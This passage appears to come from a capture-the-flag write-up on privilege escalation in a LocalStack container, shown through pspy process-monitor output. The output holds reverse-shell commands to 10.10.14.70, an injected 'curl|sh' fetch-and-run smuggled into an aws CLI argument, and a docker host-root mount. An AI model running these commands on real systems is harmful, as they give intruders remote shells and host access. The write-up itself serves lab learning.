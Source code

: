 # Root

## Command injection \# 2

After looking around in the container there does not seem an obvious way to privesc, so the best shot might be to take a close look at the localstack functionalities. Using the [github repository](https://gist.github.com/crypticmind/c75db15fd774fe8f53282c3ccbe3d7ad) again we create a fully functioning lambda app and monitor on the docker with `pspy` for process creation.

```
/tmp $ ./pspy64
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░
                   ░           ░ ░
                               ░ ░

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2021/09/19 11:39:15 CMD: UID=0    PID=93     | java -Djava.library.path=./DynamoDBLocal_lib -Xmx256m -jar DynamoDBLocal.jar -port 47861 -dbPath /var/localstack/data/dynamodb
2021/09/19 11:39:15 CMD: UID=1001 PID=5833   | ./pspy64
2021/09/19 11:39:15 CMD: UID=0    PID=5814   | /bin/sh
2021/09/19 11:39:15 CMD: UID=1001 PID=5588   | /bin/sh
2021/09/19 11:39:15 CMD: UID=1001 PID=5587   | python -c import pty;pty.spawn("/bin/sh")
2021/09/19 11:39:15 CMD: UID=1001 PID=5583   | bash -i
2021/09/19 11:39:15 CMD: UID=1001 PID=5582   | bash -c bash -i >& /dev/tcp/10.10.14.70/443 0>&1
2021/09/19 11:39:15 CMD: UID=1001 PID=5581   | sh
2021/09/19 11:39:15 CMD: UID=1001 PID=5574   | /bin/sh -c { test `which aws` || . .venv/bin/activate; }; aws --endpoint-url="http://localhost:4566" lambda list-event-source-mappings --function-name api;curl${IFS}10.10.14.70|sh;
2021/09/19 11:39:15 CMD: UID=0    PID=4830   | docker run -v /:/mnt/host --entrypoint sh -it 0601ea177088
2021/09/19 11:39:15 CMD: UID=0    PID=280    | /bin/sh
2021/09/19 11:39:15 CMD: UID=1001 PID=26     | python bin/localstack web
2021/09/19 11:39:15 CMD: UID=0    PID=25     | python bin/localstack start --host
2021/09/19 11:39:15 CMD: UID=1001 PID=24     | make web
2021/09/19 11:39:15 CMD: UID=0    PID=23     | make infra
2021/09/19 11:39:15 CMD: UID=0    PID=226    | /bin/bash
2021/09/19 11:39:15 CMD: UID=0    PID=225    | python -c import pty;pty.spawn("/bin/bash")
2021/09/19 11:39:15 CMD: UID=0    PID=224    | nc 10.10.14.70 443
2021/09/19 11:39:15 CMD: UID=0    PID=223    | /bin/sh -i
2021/09/19 11:39:15 CMD: UID=0    PID=222    | cat /tmp/f
2021/09/19 11:39:15 CMD: UID=1001 PID=22     | bash -c if [ "$START_WEB" = "0" ]; then exit 0; fi; make web
2021/09/19 11:39:15 CMD: UID=0    PID=212    |
2021/09/19 11:39:15 CMD: UID=0    PID=18     | tail -qF /tmp/localstack_infra.log /tmp/localstack_infra.err
2021/09/19 11:39:15 CMD: UID=0    PID=16     | /usr/bin/python3.8 /usr/bin/supervisord -c /etc/supervisord.conf
```
